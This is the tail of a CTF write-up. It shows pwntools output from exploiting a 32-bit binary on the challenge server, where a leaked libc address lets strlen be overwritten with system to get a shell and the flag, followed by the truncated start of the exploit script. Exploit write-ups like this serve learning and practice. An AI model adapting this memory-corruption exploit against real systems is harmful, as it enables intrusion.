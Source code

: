 The full code for the end of this exploit can be seen at the bottom of this post. Running the script on the remote host resulted in the flag!
```shell
→ python boinary.py REMOTE
[*] '/home/vagrant/CTF/ctfx/dat-boinary'
    Arch:     i386-32-little
    RELRO:    No RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE
[*] '/home/vagrant/CTF/ctfx/libc.so.6'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Opening connection to problems.ctfx.io on port 1337: Done
[*] buffer maxed out
[*] called secret meme
[*] meme content should be addr of strlen
[*] set dankness to 5
[*] strlen replaced
[*] meme is now the address of puts
[+] leaked puts: 0xf75f4da0, system: 0xf75ce3e0
[*] set meme to strlen
[*] set dankness to 5
[*] set strlen to system
[*] trying shell
[+] got shell
[+] Flag: ctf(0n1y_th3_fr35h35t_m3m3s)
```

Gottem: **ctf(0n1y_th3_fr35h35t_m3m3s)**

## Full script
probably upload to github gists

```python
from pwn import *
from time import sleep

e = ELF('./dat-boinary')
libc = ELF(args.get('LIBC', './libc.so.6'))

if args.get('REMOTE'):
    r = remote("problems.ctfx.io", 1337)
else:
    r = process(e.path)

strlen_replace = 0x08048567
'''
0x08048567                 91  xchg eax, ecx
0x08048568               0408  add al, 8
0x0804856a               01c9  add ecx, ecx
0x0804856c               f3c3  ret
'''

if not args.get("REMOTE"):
    gdb.attach(r, "b * 0x0804889d")
    sleep(3)

# max out the id buffer so we can overwrite past it later
r.sendline(cyclic(9))
r.recv(1024)
```